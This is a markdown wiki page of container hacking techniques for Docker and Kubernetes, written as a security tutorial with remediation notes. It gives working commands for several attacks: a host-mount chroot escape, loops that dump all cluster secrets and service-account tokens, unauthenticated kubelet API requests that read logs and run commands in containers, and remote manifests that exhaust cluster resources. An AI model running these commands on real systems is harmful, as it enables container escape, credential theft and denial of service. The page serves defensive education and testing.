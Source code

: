 # Container Hacking Techniques

- [Container Hacking Techniques](#container-hacking-techniques)
  - [Docker](#docker)
    - [Leveraging insecure mount](#leveraging-insecure-mount)
    - [Exploiting common missconfigurations - deepce.sh](#exploiting-common-missconfigurations---deepcesh)
  - [Kubernetes](#kubernetes)
    - [Retrieving secrets](#retrieving-secrets)
      - [Service Account secrets](#service-account-secrets)
    - [Interacting with kubelet](#interacting-with-kubelet)
    - [Causing DoS](#causing-dos)
      - [For Kubernetes API](#for-kubernetes-api)
      - [Kubernetes Nodes](#kubernetes-nodes)

This wiki aims to summarize many of the most interesting hacking and discovery approaches to identify and exploit missconfigurations in containerized environments.
Check [Container Security In Depth](../../container-security-in-depth.md) for understanding proper security measures to be applied to reduce the risk and likelihood of success of an attacker.

## Docker

### Leveraging insecure mount

As explained in [container-security-in-depth.md](../../container-security-in-depth.md), Docker group is sensitive and must be highly restricted, combined with secure policies restricting the mounts.

If not properly configured, this can be exploited by mounting the whole host filesystem into the container and then scaping with chroot capabilities. Check [docker - gtfobins](https://gtfobins.github.io/gtfobins/docker/) for further information.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![insecure mount](img/00-insecure-mount.png)

### Exploiting common missconfigurations - deepce.sh

[Deepce](https://github.com/stealthcopter/deepce) is an interesting contribution from open source container focused in exploiting well known missconfigurations for escaping containers and escalating privileges.

To install it:

```bash
sudo curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh; sudo  chmod +x /usr/local/bin/deepce.sh
```

```bash
deepce.sh -e DOCKER
```

![Deepce](img/01-deepce-execution.png)

Following screenshot showcase possible exploitable paths to leverage access to the system. The last step is executing the exploit mentioned in [#leveraging-insecure-mount](#leveraging-insecure-mount).

## Kubernetes

### Retrieving secrets

Kubernetes secrets shall not be considered a proper robust measure for managing secrets for applications. Either `read` permissions over secrets in namespace or cluster-wide or having the possibility to exec in the pod, can expose the real content of the secrets.

Secrets are `base64 encoded` so those are easy to retrieve.

If a user has access to the pod, it is not complicated to obtain the values.

Here I register some discovery techniques:

```bash
for secret in $(kubectl get secrets --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  data=$(kubectl get secrets ${name} -n ${namespace} -o=jsonpath="{.data}")
  echo ${data} | jq -r 'to_entries[] | .key + ": " + .value' | while IFS=": " read -r key value; do
      echo -e "\e[32mSecret name: $key:\e[0m\n\e[34mSecret value: $(echo $value | base64 --decode)\e[0m\n\n"
  done
done
```

Get all volumes mounted from secret in host:

```bash
for container in $(crictl ps | tail -n+2 | awk {'print $1'});do
  for volume in $(crictl inspect $container | jq -r .status.mounts[].hostPath |  grep "kubernetes.io~secret");do
    for data in $(ls ${volume}); do
      cat ${volume}/${data}
    done
  done
done
```

> \[!NOTE\]
> Above automation needs to be executed in each of the nodes to retrieve the node specific secrets mounted as volumes for the containers. Requires root permission, but evidences that the secrets are accessible. In an ideal scenario, the administrator shall not access the real secrets of an application of the bank, only because he should manage the infra. Makes sense?

Summary:

- Secrets are accessible either by environment variables or mounts. This is not a big challenge to retrieve, so RBAC takes a lot of importance in protecting the organization as well as using dynamic secret retrieval with Vault Managers instead of leveraging kubernetes secrets directly.
- Secrets are defined in base64 and therefore **not encrypted**. If someone has `read` permission over secrets, it is trivial to retrieve the real value of those.

#### Service Account secrets

By default if not properly configured, a kubernetes cluster mounts the `default` service account in each `namespace` for each pod deployed there. Also, other service accounts may have been created in the cluster and mapped against a pod (or deployment, daemonsets, statefulsets definitions).

These service accounts are mounted in `/var/run/secrets/kubernetes.io/serviceaccount/` of the pod as shown in below example.

![SA](img/02-sa-mount.png)

A `"good"` hacking practice is to obtain all service accounts that are visible (depending on the permissions), trying to get a more privileged sa than the user permissions (e.g. Jenkins with `Kubernetes Cloud` is likely to have interesting permissions.)

```bash
for secret in $(kubectl get pods --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  mounts_=$(kubectl exec -it ${name} -n ${namespace} -- ls /var/run/secrets/kubernetes.io/serviceaccount/)
  token=$(kubectl exec -it ${name} -n ${namespace} -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
  echo -e "\e[32mPod: $name in $namespace:\e[0m\n\e[34mSA mounts\n $mounts_:\n token $token\e[0m\n\n"
done
```

![Token retrieval](img/03-token-retrieval.png)

> \[!CAUTION\]
> Notice that not all the returns are successful. As explained in other chapter, using secure images can reduce the attack surface. There are very limited images such as the ones built from scratch or distroless that do not have even `ls` or `cat` commands available. It could also happen that the system calls are filtered with `seccomp`. Having said that, as you notice in the screenshot, having exec permissions is quite critical to be able to retrieve majority of the secrets of the cluster and therefore the RBAC must be well defined and tight to protect the organization.

### Interacting with kubelet

If kubelet service is not authorized (it is not common, but could happen) we may be able to interact with the api to compromise the cluster.

There is no documentation about the API perse available for the public. However the code is available here: [Kubelet server](https://github.com/kubernetes/kubernetes/blob/4a6935b31fcc4d1498c977d90387e02b6b93288f/pkg/kubelet/server/server.go). The api definitions and the routes are exposed here.

Useful reference: [Blog about kubelet API](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html#logs)

Examples:

1. Retrieve pods running in node.

```bash
curl --insecure https://172.31.41.69:10250/pods
```

2. Get logs of pod and container.

```bash
curl --insecure https://172.31.41.69:10250/containerLogs/default/kube-hunter-2mhkq/kube-hunter
```

3. Get running pods

```bash
curl --insecure https://172.31.41.69:10250/runningpods
```

4. List all kubelet available logs. Including `user-data, calico, journal, pods, syslog, etc.`. Many relevant information that can help to build a successful exploitable path.

```bash
curl --insecure https://172.31.41.69:10250/logs/
```

5. Get specific logs:

```bash
curl --insecure https://172.31.41.69:10250/logs/amazon/ssm/errors.log
```

To fix this a proper authorization strategy must be present in kubelet configuration (`/var/lib/kubelet/config.yaml`)

> \[!TIP\]
> Check this repository for more user-friendly interaction with kubelet API. [Cyberark kubeletctl](https://github.com/cyberark/kubeletctl)

```bash
sudo sh -c "curl -L https://github.com/cyberark/kubeletctl/releases/download/v1.9/kubeletctl_linux_amd64 -o /usr/local/bin/kubeletctl && chmod a+x /usr/local/bin/kubeletctl"
```

1. Getting pods:

```bash
kubeletctl pods --server 172.31.41.69
```

2. Exec a command inside the container.

```bash
kubeletctl run "<command-inside-container>" -p <pod-id> -c <container-name> -n <namespace>  --server 172.31.41.69
```

### Causing DoS

#### For Kubernetes API

There is an interesting project available (either not longer being maintained actively) [kube-stresscheck](https://github.com/giantswarm/kube-stresscheck).

Executing it is as simple as:

```bash
kubectl apply -f https://raw.githubusercontent.com/giantswarm/kube-stresscheck/master/examples/cluster.yaml
```

#### Kubernetes Nodes

There are as well other projects or utilities that can help to crash kubernetes nodes or the workloads allocated in them if there is no proper strategy of Quality of Service implemented.

For example [container-stress](https://github.com/mohsenmottaghi/container-stress) can fulfill this.

If there are no proper restrictions in place in terms of `limits` for the workloads, executing this container can allow to take all the resources available at the cluster.

```bash
kubectl apply -f https://raw.githubusercontent.com/mohsenmottaghi/container-stress/master/stress-deployment.yml
```